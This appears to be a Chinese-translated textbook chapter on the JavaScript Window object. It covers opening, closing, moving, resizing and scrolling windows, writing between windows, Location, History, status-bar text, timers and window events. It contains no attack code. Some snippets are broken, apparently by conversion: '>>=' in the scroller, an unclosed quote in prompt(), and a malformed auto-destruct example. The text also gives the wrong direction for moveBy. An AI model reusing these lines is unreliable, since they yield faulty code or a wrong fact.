窗口打开后，可以使用 **close()** 方法将其关闭。例如，以下片段展示了打开和关闭窗口的按钮。请务必注意 *secondwindow* 变量的使用，它包含创建的 **Window** 对象实例。

```
<form action="#" method="get">

<input type="button" value="Open Window" onclick="secondwindow =

open('http://www.yahoo.com', 'yahoo', 'height=300,width=200,scrollbars=yes');" />

<input type="button" value="Close Window" onclick="secondwindow.close();" />

</form>
```

这种 **close()** 方法的使用相当危险。如果 *secondwindow* 对象不存在，将会抛出错误。重新加载前面的示例并立即点击关闭按钮，你应该会收到错误。但是，如果你曾经创建过一次窗口，无论窗口是否显示在屏幕上，都不会看到错误，因为该对象可能仍在作用域链中。为了安全地关闭窗口，你首先需要查找该对象，然后再尝试关闭它。考虑以下 *if* 语句，它在查看 *secondwindow* 变量之前检查该变量是否已实例化，然后查看 **closed** 属性以确保它尚未关闭。

```
if (secondwindow  && !secondwindow.closed)

    secondwindow.close();
```

请注意，前面的示例实际上特别依赖于短路求值，因为如果 *secondwindow* 未实例化，查看其 **closed** 属性将抛出错误。以下简短示例展示了迄今为止讨论的 **Window** 方法和属性的安全使用。

```
<script type="text/javascript">

<!--

function openWindow()

{

    secondWin= open('http://www.yahoo.com','example',

                         'height=300,width=200,scrollbars=yes');

}

//-->>
```

```
</script>
```

```
<form action="#" method="get">
    <input type="button" value="Open Window" onclick="openWindow();" />
    <input type="button" value="Close Window" onclick="if (window.secondWin)
        secondWin.close();" />
    <input type="button" value="Check Status" onclick="if (window.secondWin)
        alert(secondWin.closed); else alert('secondWin undefined');" />
</form>
```

**提示** 如果你在 (X)HTML 标签的事件处理属性中创建窗口，请记住该变量的作用域不会在该标签外部被识别。如果你想控制窗口，请确保它在全局作用域中定义。

除了关闭前检查窗口是否存在外，请注意你无法关闭未创建的窗口——特别是在未授予脚本安全权限的情况下。此外，你可能很难关闭主浏览器窗口。如果你在运行脚本的主浏览器窗口中有类似 `window.close();` 的语句，在某些浏览器中可能会看到如下消息，而其他浏览器可能会在没有警告的情况下直接关闭主窗口，例如 Opera，或者甚至可能关闭浏览器，如非常旧版本的 Netscape。


#### 窗口特性

*feature* 参数的可能性列表相当丰富，允许你设置高度、宽度、滚动条和各种其他窗口特性。该参数的可能值详见表 12-1。

表 12-1：window.open() 的特性参数值

| 特性参数 | 值 | 说明 | 示例 |
|---|---|---|---|
| alwaysLowered | yes/no | 指示窗口是否应始终位于所有其他窗口之下。确实存在一定的安全风险。 | alwaysLowered=no |
| alwaysRaised | yes/no | 指示窗口是否应始终位于其他窗口之上。 | alwaysRaised=no |
| dependent | yes/no | 指示生成的窗口是否真正依赖于父窗口。依赖窗口在其父窗口关闭时关闭，而其他窗口则保留。 | dependent=yes |
| **directories** | yes/no | 指示浏览器窗口上的目录按钮是否应显示。 | **directories=yes** |
| **fullscreen** | yes/no | 指示窗口是否应占据全屏（仅 IE）。 | **fullscreen=yes** |
| **height** | 像素值 | 设置窗口的高度，包括边框等所有部分。 | **height=100** |
| **hotkeys** | yes/no | 指示新窗口中是否应禁用除基本快捷键（如 **quit**）之外的浏览器快捷键。 | **hotkeys=no** |
| **innerHeight** | 像素值 | 设置窗口内部文档显示区域的高度。 | **innerHeight=200** |
| **innerWidth** | 像素值 | 设置窗口内部文档显示区域的宽度。 | **innerWidth=300** |
| **left** | 像素值 | 指定相对于屏幕原点放置窗口的位置。主要是 IE 特定语法；否则请使用 **screeny**。 | **left=10** |
| **location** | yes/no | 指定窗口上是否应显示地址栏。 | **location=no** |
| **menubar** | yes/no | 指定是否应显示菜单栏。 | **menubar=yes** |
| **outerHeight** | 像素值 | 设置窗口外部包括边框的高度。 | **outerHeight=300** |
| **outerWidth** | 像素值 | 设置窗口外部包括边框的宽度。 | **outerWidth=300** |
| **resizable** | yes/no | 指示用户是否能够调整窗口大小。 | **resizable=no** |
| **screenx** | 像素值 | 窗口应在距屏幕原点左侧多少像素处打开。面向 Netscape 的语法；否则请使用 **left**。 | **screenx=100** |

| 特性参数 | 值 | 描述 | 示例 |
| --- | --- | --- | --- |
| **screeny** | 像素值 | 距离屏幕原点的上下距离，用于指定窗口打开的位置。Netscape 特有语法；请改用 **top**。 | screeny=300 |
| **scrollbars** | yes/no | 指示是否显示滚动条。 | scrollbars=no |
| **status** | yes/no | 指示是否显示状态栏。 | status=no |
| **titlebar** | yes/no | 指示是否显示标题栏。 | titlebar=yes |
| **toolbar** | yes/no | 指示是否显示工具栏菜单。 | toolbar=yes |
| **top** | 像素值 | IE 特有特性，用于指示从屏幕顶部角落向下定位窗口的位置；请改用 **screeny**。 | top=20 |
| **width** | 像素值 | 窗口的宽度。你可能需要改用 **innerWidth**。 | width=300 |
| **z-lock** | yes/no | 指定是否设置 z-index，使窗口即使获得焦点也无法改变其相对于其他窗口的堆叠顺序。 | z-lock=yes |

> **注意** 通常，在现代 JavaScript 实现中，对于使用 yes/no 值的特性，你可以用 1 表示 yes，0 表示 no。但是，为了纯粹的向后兼容性，建议使用 yes/no 语法。

使用此方法时，你通常可能想要创建字符串来保存选项，而不是使用字符串字面量。但是，在指定特性时，应逐个设置，用逗号分隔，且不带多余的空格。例如：

```
var windowOptions = "directories=no,location=no,width=300,height=300";

var myWindow = open("http://www.yahoo.com", "mywindow", windowOptions);
```

下一个示例可用于尝试各种可以设置的窗口特性。它还会在文本区域中显示创建特定窗口所需的 JavaScript 字符串，以便在脚本中使用。如果表单访问特性看起来有些难以理解，你可能需要查看第 14 章。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Window Creator</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

function createFeatureString()
{
  var featurestring = "";
  var numelements = document.windowform.elements.length;
  for (var i= 0; i < numelements; i++)
    if ( (document.windowform.elements[i].type == "checkbox") &&
         (document.windowform.elements[i].checked) )
      featurestring += document.windowform.elements[i].name+"=yes,";
  featurestring += "height="+document.windowform.height.value+",";
  featurestring += "width="+document.windowform.width.value+",";
  featurestring += "top="+document.windowform.top.value+",";
  featurestring += "left="+document.windowform.left.value+",";
  featurestring += "screenx="+document.windowform.screenX.value+",";
  featurestring += "screeny="+document.windowform.screenY.value;
  return featurestring;
}
function openWindow()
{
  var features = createFeatureString();
  var url = document.windowform.windowurl.value;
  var name = document.windowform.windowname.value;
  theNewWindow = window.open(url,name,features);
  if (theNewWindow)
    document.windowform.jscode.value = 
      "window.open('"+url+"','"+name+"','"+features+"');";
  else
    document.windowform.jscode.value = "Error: JavaScript Code Invalid";
}

function closeWindow()
{
 if (window.theNewWindow)
  theNewWindow.close();
}
//-->
</script>
</head>
<body>
<form name="windowform" id="windowform" action="#" method="get">
<h2>窗口基础</h2>
URL: <input type="text" name="windowurl" id="windowurl" size="30" maxlength="300"
 value="http://www.yahoo.com" /><br />
窗口名称: <input type="text" name="windowname" id="windowname" size="30"
 maxlength="300" value="secondwindow" /><br />
<h2>大小</h2>
高度:    <input type="text" name="height" id="height" size="4" maxlength="4"
value="100" />
宽度:    <input type="text" name="width" id="width" size="4" maxlength="4"
value="100" /><br />
<h2>位置</h2>
顶部: <input type="text" name="top" id="top" size="4" maxlength="4" value="100" >
左侧: <input type="text" name="left" id="left" size="4" maxlength="4" value="100"
 /> (IE)<br /><br />
ScreenX: <input type="text" name="screenX" id="screenX" size="4" maxlength="4"
 value="100" />
ScreenY: <input type="text" name="screenY" id="screenY" size="4" maxlength="4" value="100" /> (Netscape)<br />
```

#### 显示特性

- 始终置底: <input type="checkbox" name="alwaysLowered" id="alwaysLowered" />
- 始终置顶: <input type="checkbox" name="alwaysRaised" id="alwaysRaised" />
- 从属窗口: <input type="checkbox" name="dependent" id="dependent" />
- 目录按钮: <input type="checkbox" name="directories" id="directories" />
- 快捷键: <input type="checkbox" name="hotkeys" id="hotkeys" />
- 地址栏: <input type="checkbox" name="location" id="location" />
- 菜单栏: <input type="checkbox" name="menubar" id="menubar" /><br />
- 可调整大小: <input type="checkbox" name="resizable" id="resizable" />
- 滚动条: <input type="checkbox" name="scrollbars" id="scrollbars" />
- 标题栏: <input type="checkbox" name="titlebar" id="titlebar" />
- 工具栏: <input type="checkbox" name="toolbar" id="toolbar" />
- Z-锁定: <input type="checkbox" name="z-lock" id="z-lock" />

```
<input type="button" value="创建窗口" onclick="openWindow();" />
<input type="button" value="关闭窗口" onclick="closeWindow();" />
<br /><br />
<hr />
```

#### JavaScript Window.open 语句

```
<textarea name="jscode" id="jscode" rows="4" cols="80"></textarea>
</form>
</body>
</html>
```

### 写入窗口

到目前为止，所有涉及窗口的示例都使用了现有文档——无论是远程 URL（如 http://www.yahoo.com）还是本地文件（如 example.htm）——加载到已创建的窗口中。实际上，我们可以在窗口创建后向其写入内容，可以使用标准的 document.write() 方法，甚至可以通过 DOM 方法操作窗口。请看下面的脚本，

```
var myWindow = open('','mywin','height=300,width=300');
```

```
myWindow.document.write('Hi there. ');
```

```
myWindow.document.write('This is my new window');
```

```
myWindow.document.close();
```

```
myWindow.focus();
```

该脚本创建了一个简单的窗口，其中包含一句文本，如图 12-1 所示。


可以动态地向新创建的窗口写入 HTML，因此你可以像下面这样使用：

```
myWindow.document.writeln("<html><head><title>fun</title></head><body>");
```

```
myWindow.document.writeln("<h1>Hi from JavaScript</h1></body></html>");
```

就像使用 document.write() 语句一样简单。下一个窗口创建示例展示了如何修改之前使用 alert() 方法实现的"大师"示例，以支持更多自定义窗口。以类似方式创建你自己的警告框或其他对话框并不困难，不过要将对话框设置为真正的模态则需要一些额外的操作。有关更多信息，请参阅本章后面的"窗口扩展"部分。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

```
<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>JavaScript Guru 1.1</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

function customAlert(title,message)

{

    var guruWindow=window.open("","","width=300,height=200");

    if (guruWindow != null)

    {

        var windowHTML= "<html><head><title>"+title+"</title></head>";

        windowHTML += "<body bgcolor='black' text='yellow'><h1 align='center'>"

        windowHTML += message + "</h1><hr /><div align='center'>";

        windowHTML += "<form><input type='button' value='CLOSE' onclick='self.close()' />";

        windowHTML += "</form></div></body></html>";

        guruWindow.document.write(windowHTML);

        guruWindow.focus();

        return;

    }

}

function askGuru()

{

    var question = prompt("What is your question o' seeker of knowledge?",")

    if (question != null)

    {
```


```
if (question == "")
    customAlert("愤怒大师", "你侮辱了我！");
else
    customAlert("无聊大师", "别浪费我的时间。");
}

//--> 
</script>
</head>
<body>
<div align="center">
<h1>JavaScript 大师 1.1</h1>
<hr />
<form action="#" method="get">
<input type="button" value="请教大师" onclick="askGuru();" />
</form>
</div>
</body>
</html>
```

最后一个示例仅在文档加载时向其写入内容时有用。然而，我们可以轻松地使用专有的 **Document** 对象，如 **document.all** 或更标准的 DOM 方法，在窗口加载后对其进行修改，如[下一节](http://www.tizag.com/javascriptT/javascript-window-dom.php)中简要演示的那样。

### DOM 方法与窗口

使用 DOM 语句，我们当然可以随意插入和更改新文档中的 HTML。主要的区别在于，访问 DOM 方法或属性时，必须确保使用新窗口的名称。例如，如果你有一个名为 `newWindow` 的窗口，你将使用如下语句

`var currentElement = newWindow.document.getElementById("myheading");`

来检索另一个窗口中的特定元素。以下简单示例展示了如何在一个窗口中输入的信息被用来在另一个窗口中创建元素。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>DOM 窗口添加</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function domWindowAdd()
{
    var currentElement;
    if ((window.myWindow)  && (myWindow.closed == false))
    {
        var str = document.testForm.textToAdd.value;
        var theString = myWindow.document.createTextNode(str);
        var theBreak = myWindow.document.createElement("br");
        currentElement = myWindow.document.getElementById('heading1');
        currentElement.appendChild(theString);
        currentElement.appendChild(theBreak);
        myWindow.focus();
    }
}

// 创建要添加内容的窗口
var myWindow = open('','mywin','height=300,width=300');
myWindow.document.writeln("<html><head><title>乐趣</title></head><body>");
myWindow.document.writeln("<h1 id='heading1'>来自 JavaScript 的问候</h1>");
myWindow.document.writeln("</body></html>");
myWindow.document.close();
myWindow.focus();
//-->
</script>
</head>
<body>
<h1>DOM 窗口交互</h1>
<form name="testForm" id="testForm" action="#" method="get">
  <input type="text" name="textToAdd" id="textToAdd" size="30" />
  <input type="button" value="添加文本" onclick="domWindowAdd();" />
</form>
</body>
</html>
```

此示例仅为提醒你这些技术的使用。有关使用 DOM 方法进行文档操作的更完整讨论，请参阅[第 10 章](Chapter 10)。在进入与窗口相关的方法和事件之前，我们需要涵盖最后一个关于窗口如何相互交互的细节。

### 窗口间通信细节

对于启动了多个窗口的应用程序，理解窗口间通信的基础知识尤为重要。通常，我们使用名为 *window* 的对象实例访问主窗口的方法和属性，或者我们甚至省略引用。但是，如果我们想访问另一个窗口，我们需要使用该窗口的名称。例如，给定一个名为 "mywindow" 的窗口，我们将使用 *mywindow.document.write* 向其写入内容。窗口间通信的关键在于知道窗口的名称，然后使用它来代替通用的对象引用 *window*。当然，一个重要的问题是如何从创建的窗口引用主窗口？主要方式是使用 **window.opener** 属性，它引用创建当前窗口的 **Window** 对象。这里的简单示例展示了一个窗口如何创建另一个窗口，并且每个窗口都能够设置对方的背景色。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>窗口测试器</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--

function createWindow()
{

    secondwindow = window.open('','example','height=300,width=200,scrollbars=yes');

    if (secondwindow != null)
    {

        var windowHTML= "<html><head><title>第二个窗口</title></head>";

        windowHTML += "<body><h1 align='center'>";

        windowHTML += "另一个窗口！</h1><hr><div align='center'><form action='#' method='get'>";

        windowHTML += "<input type='button' value='设置主窗口为红色' onclick='window.opener.document.bgColor=\"red\";' />";

        windowHTML += "<br ><input type='button' value='关闭' onclick='self.close();' />";

        windowHTML += "</form></div></body></html>";

        secondwindow.document.write(windowHTML);

        secondwindow.focus();

    }

}

//-->
</script>
</head>
<body>
<form action="#" method="get">
<input type="button" value="新窗口" onclick="createWindow();" />
<input type="button" value="设为红色" onclick="if (window.secondwindow) {secondwindow.document.bgColor='red';secondwindow.focus();}" />
</form>
</body>
</html>
```

既然我们已经了解了如何控制窗口之间的数据交换，重申几点就很重重要。首先，除非你打算覆盖该窗口中的所有内容，否则避免在次级窗口上使用 **document.write()**。你必须使用 DOM 方法或专有对象，如 **document.all[]**，来就地修改内容。其次，确保不要创建过多的子窗口，并保持其目的清晰。你网站的大多数访问者可能不习惯于一个会生成许多子窗口的网站（除了令人讨厌的弹出广告），并且实际上可能拥有软件或浏览器设置被调校为关闭生成的窗口。最后，确保你了解 JavaScript 的同源安全策略及其与窗口的关系。该策略规定你不能访问不属于你网站的窗口，反之其他网站也不应能够访问你的窗口。然而，JavaScript 的安全性可能有些棘手，所以如果你觉得这个想法令人不安，请务必阅读第 22 章。

---

### 控制窗口

正如我们到目前为止所看到的，打开和关闭窗口以及向其中写入内容相当容易。还有许多其他方法可以控制窗口。例如，也可以使用 **window.focus()** 方法使一个窗口获得焦点。相反，也可以使用 **window.blur()** 方法执行相反操作。本节将展示其他几种常见的移动、调整大小和滚动窗口的方法。

#### 移动窗口

在屏幕上移动窗口可以使用两种不同的方法：window.moveBy() 和 **window.moveTo()**。**moveBy()** 方法将窗口移动指定的像素数，其语法为

```
windowname.moveBy(horizontalpixels, verticalpixels)
```

其中

- **windowname** 是要移动的窗口的名称，如果是主窗口则直接使用 **window**。
- **horizontalpixels** 是水平移动窗口的像素数，正数向右移动窗口，负数向左移动。
- **verticalpixels** 是垂直移动窗口的像素数，正数向上移动窗口，负数向下移动。

例如，假设存在一个名为 *myWindow* 的窗口，

`myWindow.moveBy(100,100);`

将使窗口向上移动 100 像素，向右移动 100 像素。

如果你心中有一个特定的屏幕位置要移动窗口到，最好使用 **window.moveTo()** 方法，它会将窗口移动到屏幕上的特定 x/y 坐标。此方法的语法为

```
windowname.moveTo(x-coord, y-coord)
```

其中

- **windowname** 是要移动的窗口的名称，如果是主窗口则使用 **window**。
- **x-coord** 是要移动窗口到的屏幕 x 轴坐标。
- **y-coord** 是要移动窗口到的屏幕 y 轴坐标。

因此，假设名为 *myWindow* 的窗口在屏幕上，

`myWindow.moveTo(1,1);`

会将窗口移动到屏幕的原点。

#### 调整窗口大小

在 JavaScript 中，调整窗口大小的方法与移动窗口的方法非常相似。**window.resizeBy(*horizontal*, *vertical*)** 方法根据 *horizontal* 和 *vertical* 中给出的值调整窗口大小。负值使窗口变小，而正值使其变大，如这里的示例所示：

```
myWindow.resizeBy(10,10); // 使窗口高度和宽度各增加10像素
```


`myWindow.resizeBy(-100,0);` // 将窗口宽度减少 100 像素

与 **moveTo()** 方法类似，**window.resizeTo(width, height)** 将窗口调整为指定的宽度和高度。

```
myWindow.resizeTo(100,100); // 将窗口调整为 100x100
myWindow.resizeTo(500,100); // 将窗口调整为 500x100
```

> **注意** *在行为良好的 JavaScript 实现中，不允许将窗口调整到非常小的尺寸，比如 1*1 像素。这可能被视为安全违规。*

### 滚动窗口

与调整大小和移动类似，**Window** 对象支持 **scrollBy()** 和 **scrollTo()** 方法，用于相应地将窗口滚动一定的像素数或滚动到特定的像素位置。以下简单示例说明了如何在某个名为 *myWindow* 的窗口上使用这些方法：

```
myWindow.scrollBy(10,0); // 向右滚动 10 像素
myWindow.scrollBy(-10,0); // 向左滚动 10 像素
myWindow.scrollBy(100,100); // 向右向下滚动 100 像素
myWindow.scrollTo(1,1); // 滚动到原点 1,1
myWindow.scrollTo(100,100); // 滚动到 100, 100
```

除了 **scrollTo()** 和 **scrollBy()** 方法外，一个更早的方法，简单地称为 **scroll()**，也经常被使用。虽然这个方法应该已被弃用，但许多程序员仍在使用它。其语法本身与 **scrollBy()** 方法完全相同。此方法的完整语法可在 **附录 B** 中找到。

此处呈现了一个完整的示例，可用于实验我们在本章中遇到的各种常见 **Window** 方法。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Common Window Methods</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

var myWindow;

function openIt()
{
    myWindow = open('','mywin','height=300,width=300,scrollbars=yes');
    myWindow.document.writeln("<html><head><title>fun</title></head><body>");
    myWindow.document.writeln("<table bgcolor='#ffcc66' border='1'
        width='600'><tr><td>");
    myWindow.document.writeln("<h1>JavaScript Window Methods</h1><br /><br />
        <br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br />");
    myWindow.document.writeln("</tr></td></table></body></html>");
    myWindow.document.close();
    myWindow.focus();
}

function moveIt()
{
    if ((window.myWindow) && (myWindow.closed == false))
        myWindow.moveTo(document.testform.moveX.value,
            document.testform.moveY.value);
}

function scrollIt()
{
    if ((window.myWindow) && (myWindow.closed == false))
        myWindow.scrollTo(document.testform.scrollX.value,
            document.testform.scrollY.value);
}

function resizeIt()
{
    if ((window.myWindow) && (myWindow.closed == false))
        myWindow.resizeTo(document.testform.resizeX.value,
            document.testform.resizeY.value);
}
//-->
</script>
</head>
<body onload="openIt()">
<h1 align="center">Window Methods Tester</h1>
<hr />
<form name="testform" id="testform" action="#" method="get">
<input type="button" value="Open Window" onclick="openIt();" />
<input type="button" value="Close Window" onclick="myWindow.close();" />
<input type="button" value="Focus Window" onclick="if (myWindow) myWindow.focus();" />
<input type="button" value="Blur Window" onclick="if (myWindow) myWindow.blur();" />
<br /><br />
<input type="button" value="Move Up" onclick="if (myWindow) myWindow.moveBy(0,-10);" />
<input type="button" value="Move Left" onclick="if (myWindow) myWindow.moveBy(-10,0);" />
<input type="button" value="Move Right" onclick="if (myWindow) myWindow.moveBy(10,0);" />
<input type="button" value="Move Down" onclick="if (myWindow) myWindow.moveBy(0,10);" />
<br /><br />
X: <input type="text" size="4" name="moveX" id="moveX" value="0" />
Y: <input type="text" size="4" name="moveY" id="moveY" value="0" />
<input type="button" value="Move To" onclick="moveIt();" />
<br /><br />
<input type="button" value="Scroll Up" onclick="if (myWindow) myWindow.scrollBy(0,-10);" />
<input type="button" value="Scroll Left" onclick="if (myWindow) myWindow.scrollBy(-10,0);" />
<input type="button" value="Scroll Right" onclick="if (myWindow) myWindow.scrollBy(10,0);" />
<input type="button" value="Scroll Down" onclick="if (myWindow) myWindow.scrollBy(0,10);" />
<br /><br />
X: <input type="text" size="4" name="scrollX" id="scrollX" value="0" />
Y: <input type="text" size="4" name="scrollY" id="scrollY" value="0" />
<input type="button" value="Scroll To" onclick="scrollIt();" />
<br /><br />
<input type="button" value="Resize Up" onclick="if (myWindow) myWindow.resizeBy(0,-10);" />
<input type="button" value="Resize Left" onclick="if (myWindow) myWindow.resizeBy(-10,0);" />
<input type="button" value="Resize Right" onclick="if (myWindow) myWindow.resizeBy(10,0);" />
<input type="button" value="Resize Down" onclick="if (myWindow) myWindow.resizeBy(0,10);" /><br />
X: <input type="text" size="4" name="resizeX" id="resizeX" value="0" />
Y: <input type="text" size="4" name="resizeY" id="resizeY" value="0" />
<input type="button" value="Resize To" onclick="resizeIt();" />
<br /><br />
</form>
</body>
</html>
```

### 设置窗口位置

通常希望将窗口设置到特定的 URL。在 JavaScript 中有多种方法可以实现，但最佳方法是使用 **Window** 内部的 **Location** 对象。**Location** 对象用于访问窗口的当前位置（URL）。**Location** 对象既可以读取也可以替换，因此可以通过脚本更新页面的位置。以下示例展示了简单的按钮点击如何导致页面加载。

```
<form action="#" method="get">
   <input type="button" value="Go to Yahoo"
           onclick="window.location='http://www.yahoo.com';" />
</form>
```

也可以访问 **Location** 对象的已解析部分，以查看用户在特定时刻的位置，如下所示：

```
alert(window.location.protocol); // 显示 URL 中的当前协议
alert(window.location.hostname); // 显示当前主机名
```

**Location** 对象的属性（在附录 B 中列出）对于任何理解 URL 的人都非常直观。除了设置当前地址外，我们还可以使用 JavaScript 在窗口的历史记录中导航。

### 访问窗口的历史记录

当用户点击浏览器的“后退”或“前进”按钮时，他们正在导航浏览器的历史记录列表。JavaScript 提供了 **History** 对象，作为访问特定浏览器窗口历史记录列表的一种方式。**History** 对象是一个只读的 URL 字符串数组，显示用户最近访问过的位置。主要方法允许在历史记录中前进和后退，如下所示：

```
<a href="javascript: window.history.forward();">Forward</a>
<a href="javascript: window.history.back();">Back</a>
```

> **注意** 在尝试用 JavaScript 模拟“后退”按钮时，应小心，因为它可能会让期望页面中标记为“后退”的链接不像浏览器的“后退”按钮那样行动的用户感到困惑。

也可以使用 **history.go()** 方法访问历史记录列表中相对于当前位置的特定项。使用负值会移动到当前位置之前的历史项，而正数则在历史记录列表中向前移动。例如：

```
<a href="javascript: window.history.go(-2);">Back two times</a>
<a href="javascript: window.history.go(3);">Forward three times</a>
```

鉴于可以使用 **history.length** 属性读取 **history[]** 数组的长度，您可以轻松移动到列表的末尾：

```
<a href="javascript: window.history.go(window.history.length-1);">Last Item</a>
```

### 控制窗口的状态栏


状态栏是浏览器窗口左下角的小型文本区域，通常在此显示下载进度或其他浏览器状态项目的消息。可以使用 JavaScript 控制该区域的内容。许多开发者利用该区域显示简短消息。在状态栏中提供信息的益处尚有争议，特别是考虑到操纵该区域往往会阻止默认浏览器状态信息的显示——而许多用户依赖这些信息。

可以通过 **Window** 对象的两个属性访问状态栏：**status** 和 **defaultStatus**。这两个属性的区别在于消息显示的时间长短。**defaultStatus** 的值在浏览器窗口无事发生时的任何时候显示。而 **status** 的值则是临时的，仅在事件（如鼠标移动）发生的短时间内显示。这个简短示例展示了鼠标悬停在链接上时的一些简单状态变化：

```html
<a href="http://www.yahoo.com"
   onmouseover="window.status='Don\'t Leave Me!'; return true;"
   onmouseout="window.status=''; return true;">
  前往 Yahoo!
</a>
```

注意需要从事件处理程序返回 **true** 值，否则浏览器将取消状态区域的变化。设置默认浏览器状态值也非常容易。尝试将以下内容添加到你的页面：

```html
<script type="text/javascript">
<!--
defaultStatus='JavaScript is fun!';
//-->
</script>
```

**注意：** 需注意用户可能看不到状态栏。在许多浏览器中，它默认是关闭的。此外，当你测试这些脚本时，需要确保使用外部浏览器进行测试，因为许多网页编辑器（如 Dreamweaver 或 Homesite）在使用内部浏览器时可能会将状态栏遮蔽掉。

### 设置窗口超时和间隔

**Window** 对象支持设置计时器的方法，我们可以用它们来执行各种功能。这些方法包括 **setTimeout()** 和 **clearTimeout()**。基本思想是设置一个超时，以在将来的特定时间触发一段脚本执行。一般语法为 `timerId = setTimeout(script-to-execute, time-in-milliseconds);`

其中 *script-to-execute* 是包含函数调用或其他 JavaScript 语句的字符串，*time-in-milliseconds* 是执行指定脚本片段之前等待的时间。注意 **setTimeout()** 方法返回一个指向计时器的句柄，我们可以将其保存在变量中，由 **timerId** 指定。之后可以使用 **clearTimeout(timerId)** 清除超时（取消函数的执行）。以下示例展示了如何设置和清除定时事件：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>5,4,3,2,1...BOOM</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
```

```html
<head>
<body>
<h1 align="center">浏览器自毁</h1>
<hr />
<div align="center">
<form action="#" method="get">
  <input type="button"
         value="Start Auto-destruct"
         onclick="timer = setTimeout('window.close()', 5000);
                  alert('Destruction in 5 seconds'); return true;" />
  <input type="button" value="Stop Auto-destruct"
         onclick="clearTimeout(timer); alert('Aborted!'); return true;" />
</form>
</div>
</body>
</html>
```

与 **Window** 对象的 **status** 属性结合使用，我们可以利用计时器创建（过度使用的）滚动消息带效果。许多人喜欢利用这种效果来推广项目或吸引对状态栏的注意。虽然这个功能可能达成该目标，但它会使用户无法利用状态栏查看页面外链接的 URL。这严重降低了页面的可用性。此外，需注意一些编写不当的滚动脚本最终可能会使浏览器崩溃或运行缓慢，如果它们不释放内存的话。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Super Scroller</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
var message = "Look down in the status bar. It's a JavaScript gimmick. . ."
var delay = 175;
var timerID;
var maxCount = 0;
var currentCount = 1;

function scrollMsg()
{
    if (maxCount == 0)
        maxCount = 3 * message.length;
    window.status = message;
    currentCount++;
    message = message.substring(1, message.length) + message.substring(0,1);
    if (currentCount >>= maxCount)
    {
        timerID = 0;
        window.status="";
        return;
    }
    else
        timerID = setTimeout("scrollMsg()", delay);
}
//-->
</script>
</head>
<body onload="scrollMsg();">
<h1 align="center">The Amazing Scroller</h1>
</body>
</html>
```

**setInterval()** 和 **clearInterval()** 方法在较新的浏览器（如 4.x 版本）中得到支持，用于设置应定期发生的定时事件。我们可能会发现使用它们是实现滚动器的更好方式。以下是间隔语法的示例：

```html
<script type="text/javascript">
<!--
timer = setInterval("alert('When are we going to get there?')", 2000);
//-->
</script>
```

此示例设置了一个每两秒触发一次的警告。要清除间隔，可以使用与超时类似的方法：`clearInterval(timer);`

有关间隔和计时器语法的更多详细信息，请参阅 [附录 B]()。

### 窗口事件

**Window** 对象支持许多事件。遗憾的是，其中许多是专有的。安全的跨浏览器窗口事件包括 **onblur**、**onerror**、**onfocus**、**onload**、**onunload** 和 **onresize**，详见表 12-2。

**表 12-2：常见窗口事件**

| 事件 | 描述 |
|-------|-------------|
| **onblur** | 窗口失去焦点时触发。 |
| **onerror** | 发生 JavaScript 错误时触发的基本错误处理事件。 |
| **onfocus** | 窗口获得焦点时触发。 |
| **onload** | 文档完全加载到窗口中时触发。警告：此事件的触发时机并不总是精确的。 |
| **onresize** | 用户调整窗口大小时触发的事件。 |
| **onunload** | 文档卸载时触发，例如跟随外部链接或关闭窗口时。 |

添加窗口事件处理程序可以通过 **\<body\>** 元素上的 HTML 事件属性设置，如下所示：

```html
<body onload="alert('entering window');" onunload="alert('leaving window')">
```

或者通过 **Window** 对象注册事件：

```javascript
function sayHi() { alert('hi'); }
function sayBye() { alert('bye'); }
window.onload = sayHi;
window.onunload = sayBye;
```

Internet Explorer 和 Netscape 为 **Window** 对象添加了许多事件。表 12-3 详细介绍了一些更有用的事件。关于 **Window** 事件的一般讨论可参见第 11 章，完整列表见附录 B。

**表 12-3：有用的扩展窗口事件**

| 事件 | 描述 |
|-------|-------------|
| **onafterprint** | 窗口打印后触发的事件。 |
| **onbeforeprint** | 在窗口打印或打印预览之前触发。 |
| **onbeforeunload** | 窗口卸载之前触发的事件。应在 **onunload** 事件之前发生。 |
| **ondragdrop** | 文档拖动到窗口上时触发。（仅限 Netscape。） |
| **onhelp** | 单击帮助键（通常为 F1）时触发。 |
| **onresizeend** | 调整大小过程结束时触发——通常是用户停止拖动窗口角落时。 |
| **onresizestart** | 调整大小过程开始时触发——通常是用户开始拖动窗口角落时。 |


